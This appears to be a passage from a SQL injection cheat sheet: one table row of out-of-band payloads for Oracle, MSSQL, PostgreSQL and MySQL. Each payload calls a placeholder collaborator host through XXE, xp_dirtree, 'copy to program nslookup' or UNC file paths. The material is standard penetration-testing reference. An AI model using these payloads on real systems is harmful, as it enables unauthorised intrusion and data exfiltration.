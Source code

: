 | Via XXE :<br><br>`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`<br><br>The following technic requires elevated privileges to be performed :<br><br>`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | Windows Only :<br><br>`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  <br>`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`                                                                                                                                                                                                                                                                              | Out-of-band (OOB) interaction.                                                                                                                                                                                                                                                                                              |